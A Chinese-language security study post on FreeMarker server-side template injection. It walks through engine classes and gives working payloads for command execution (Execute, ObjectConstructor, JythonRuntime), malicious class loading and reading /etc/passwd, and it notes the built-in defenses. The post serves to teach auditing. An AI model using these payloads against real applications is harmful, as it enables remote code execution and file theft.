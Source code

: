 ```yaml
---
title: 【代码审计】模板注入
date: 2021-12-03 20:04:41
id: 211203-200441
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202112032001193.png
tags:
- 学习笔记
- 代码审计
categories:
- 代码审计
---
```


# 0x00 介绍

这里主要学习下 FreeMarker 模板注入，FreeMarker 是一款模板引擎，FreeMarker 模板文件与 HTML 一样都是静态页面，当用户访问页面时，FreeMarker 引擎会进行解析并动态替换模板中的内容进行渲染，然后将渲染后的结果返回到浏览器中。

# 0x01 FreeMarker 模板

FreeMarker 模板语言（FreeMarker Template Language，FTL）由 4 个部分组成，分别如下：

- 文本：包括 HTML 标签与静态文本等静态内容，该部分内容会原样输出
- 插值：这部分的输出会被模板引擎计算的值来替换，使用 ${} 这种语法

- 标签：和 HTML 标签类似，不会打印在输出的内容中，比如 <#assign name='bob'>
- 注释：和 HTML 注释类似，由 <#-- 和 --> 表示，注释部分的内容会 FreeMarker 忽略

以下是一个 FreeMarker 模板内容示例：

```html
<html>
<head>
    <title>Welcome TeamsSix!</title>
</head>
<body>　<#-- 这是注释 -->
<h1>Welcome !</h1>
<p>Our latest product:
    <a href="${latestProduct.url}">${latestProduct.name}</a>!
</body>
</html>
```

# 0x02 模板注入利用

## 1、new 函数的利用

FreeMarker 中预制了大量了内建函数，其中 new 函数可以创建一个继承自 freemarker.template.TemplateModel 类的变量，利用这一点能达到执行任意代码的目的。

### 利用方法一：

freemarker.template.utility 里有个 Execute 类，通过观察源代码里的第 30 行可以看到这个类会调用 Runtime.getRuntime().exec 函数执行它的 aExecute 变量参数值，因此这里可以使用 new 函数传输想要执行的命令作为 aExecute 参数值，从而执行命令。

freemarker.template.utility.Execute 部分文件代码如下：

```java
22 public Object exec(List arguments) throws TemplateModelException {
23    StringBuilder aOutputBuffer = new StringBuilder();
24    if (arguments.size() < 1) {
25        throw new TemplateModelException("Need an argument to execute");
26    } else {
27        String aExecute = (String)((String)arguments.get(0));
28
29        try {
30            Process exec = Runtime.getRuntime().exec(aExecute);
31            InputStream execOut = exec.getInputStream();
32            Throwable var6 = null;
```

构造 payload 如下：

```html
<#assign value="freemarker.template.utility.Execute"?new()>${value("open -a Calculator")}
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202112032001193.png)

### 利用方法二：

freemarker.template.utility 里有个 ObjectConstructor 类，通过观察源代码里的第 25 行可以看到这个类会把它的参数作为名称构造一个实例化对象。

因此也可以利用这一点构造一个可执行命令的对象，从而 RCE

freemarker.template.utility.ObjectConstructor 部分文件代码如下：

```java
17 public class ObjectConstructor implements TemplateMethodModelEx {
18     public ObjectConstructor() {
19     }
20 
21     public Object exec(List args) throws TemplateModelException {
22         if (args.isEmpty()) {
23             throw new TemplateModelException("This method must have at least one argument, the name of the class to instantiate.");
24         } else {
25             String classname = args.get(0).toString();
26             Class cl = null;
27 
28             try {
29                 cl = ClassUtil.forName(classname);
30             } catch (Exception var6) {
31                 throw new TemplateModelException(var6.getMessage());
32             }
```

构造 Payload 如下：

```html
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","open","-a","Calculator").start()}
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202112032001213.png)

### 利用方法三：

freemarker.template.utility 里有个 JythonRuntime 类，这里可以通过自定义标签的方式执行 Python 命令，从而构造远程命令执行。

freemarker.template.utility.JythonRuntime 部分文件代码如下：

```java
public class JythonRuntime extends PythonInterpreter
    implements TemplateTransformModel {
    @Override
    public Writer getWriter(final Writer out,
                            final Map args) {
        final StringBuilder buf = new StringBuilder();
        final Environment env = Environment.getCurrentEnvironment();
        return new Writer() {
            @Override
            public void write(char cbuf[], int off, int len) {
                buf.append(cbuf, off, len);
            }

            @Override
            public void flush() throws IOException {
                interpretBuffer();
                out.flush();
            }

            @Override
            public void close() {
                interpretBuffer();
            }

            private void interpretBuffer() {
                synchronized (JythonRuntime.this) {
                    PyObject prevOut = systemState.stdout;
                    try {
                        setOut(out);
                        set("env", env);
                        exec(buf.toString());
                        buf.setLength(0);
                    } finally {
                        setOut(prevOut);
                    }
                }
            }
        };
    }
}
```

构造 Payload 如下：

```html
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("open -a Calculator")</@value>
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202112032001223.png)

## 2、api 函数的利用

除了 new 函数，还可以利用 api 函数调用 Java API，然后通过 getClassLoader 获取类加载器从而加载恶意类，或者也可以通过 getResource 来实现任意文件读取。

加载恶意类的 Payload 如下：

```html
<#assign classLoader=object?api.class.getClassLoader()>${classLoader.loadClass("Evil.class")}
```

任意文件读取的 Payload 如下：

```html
<#assign uri=object?api.class.getResource("/").toURI()>
  <#assign input=uri?api.create("file:///etc/passwd").toURL().openConnection()>
  <#assign is=input?api.getInputStream()>
  FILE:[<#list 0..999999999 as _>
      <#assign byte=is.read()>
      <#if byte == -1>
          <#break>
      </#if>
  ${byte}, </#list>]
```

不过 api 内建函数并不能随便使用，必须在配置项 apiBuiltinEnabled 为 true 时才有效，而该配置在 2.3.22 版本之后默认为 false

同时 FreeMarker 为了防御通过其他方式调用恶意方法，FreeMarker 内置了一份危险方法名单 unsafeMethods.properties，例如 getClassLoader、newInstance 等危险方法都被禁用了。

> 参考文章：
>
> [https://www.anquanke.com/post/id/215348](https://www.anquanke.com/post/id/215348)
>
> [https://www.cnblogs.com/Eleven-Liu/p/12747908.html](https://www.cnblogs.com/Eleven-Liu/p/12747908.html)
>
> 更多信息欢迎关注我的个人微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
